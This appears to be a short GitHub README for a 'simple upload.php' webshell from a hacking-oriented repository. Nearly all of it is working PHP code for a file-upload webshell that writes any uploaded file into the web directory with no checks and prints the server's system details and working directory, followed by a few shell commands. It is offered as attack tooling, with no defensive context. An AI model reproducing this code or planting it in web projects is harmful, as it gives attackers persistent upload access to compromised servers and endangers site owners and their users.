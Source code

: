 # webshell simple upload.php.

<img style="float:left" alt="route logo" src="https://github.com/hackingyseguridad/webshell/blob/master/webshell.png"> 


vim upload.php

<center><form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">
<center><input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form></center>
<?php if( $_POST['_upl'] == "Upload" ) { if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo 'Done !!'; } else { echo 'Failed :('; }} 
echo "<center><br><b>".php_uname()."</b><br></center>";
echo "<center><p><br><b>".getcwd()."</b><br></p></center>";
?>

cd ..

chmod +r carpeta

cd carpeta

